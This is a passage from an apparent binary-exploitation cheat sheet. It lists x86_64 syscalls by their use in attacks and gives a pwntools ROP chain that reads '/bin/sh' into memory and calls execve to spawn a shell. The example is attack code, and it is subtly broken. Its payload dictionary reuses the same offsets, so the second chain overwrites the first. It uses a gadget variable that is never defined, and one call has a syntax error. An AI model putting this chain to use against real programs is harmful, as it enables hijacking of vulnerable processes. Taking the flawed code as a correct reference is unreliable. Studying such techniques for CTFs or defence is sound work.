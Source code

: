 | `20`  | `writev`         | Write to multiple buffers (`rdi`=fd, `rsi`=iov, `rdx`=iovcnt) |

------

#### Syscalls for Exploitation

| `RAX` | Syscall    | Usage                                                        |
| ----- | ---------- | ------------------------------------------------------------ |
| `0`   | `read`     | Read input (used for **stack pivoting**)                     |
| `1`   | `write`    | Leak addresses to **bypass ASLR**                            |
| `9`   | `mmap`     | Allocate **RWX memory for shellcode**                        |
| `10`  | `mprotect` | Modify **memory protections** (turning RW into RWX)          |
| `11`  | `munmap`   | Unmap memory (used for **heap attacks**)                     |
| `33`  | `access`   | Check if a file exists (used in **sandbox escapes**)         |
| `59`  | `execve`   | **Spawns `/bin/sh`** (most useful for **one-gadget** attacks) |

------

#### Full System Call Table (x86_64)

If you need **all syscalls**, check:

- `/usr/include/asm/unistd_64.h`
- Run:

```sh
man 2 syscall
```

### Example | Read

```py
# Gadgets
rop 	    = ROP(libc)
p_rdi_r     = libc_base + rop.find_gadget(['pop rdi', 'ret'])[0]
p_rsi_r     = libc_base + rop.find_gadget(['pop rsi', 'ret'])[0]
p_rdx_rbx_r = libc_base + rop.find_gadget(['pop rdx', 'pop rbx', 'ret'])[0]
leave_r	    = libc_base + rop.find_gadget(['leave', 'ret'])[0]
ret         = libc_base + rop.find_gadget(['ret'])[0]
syscall_r   = libc_base + rop.find_gadget(['syscall', 'ret'])[0]

buf  = 0xdeadbeef	# address to write "/bin/sh\x00"
fd   = 0

pl = flat({
    # read(fd, buf, size)
    0x0:  [p_rdi_r, fd],			
    0x10: [p_rsi_r, buf],			
    0x20: [p_rdx_rbx_r, 8, 0],		# read size
    0x38: [p_rax_r, 0],				# syscall number for read
    0x48: syscall_r,
    # execve(buf, 0, 0)
    0x0:  [p_rdi_r, buf],			# 1st param: buf
    0x10: [p_rsi_r, 0],				# 2nd param: argv[] = NULL
    0x20: [p_rdx_rbx_r, 0, 0],		# 3rd param: envp[] = NULL
    0x38: [p_rax_r, 0x3b],			# syscall number 59 for execve
    0x48: syscall_r,    
}, filler'\0')

sa(b'', pl)
sleep(0.886)
```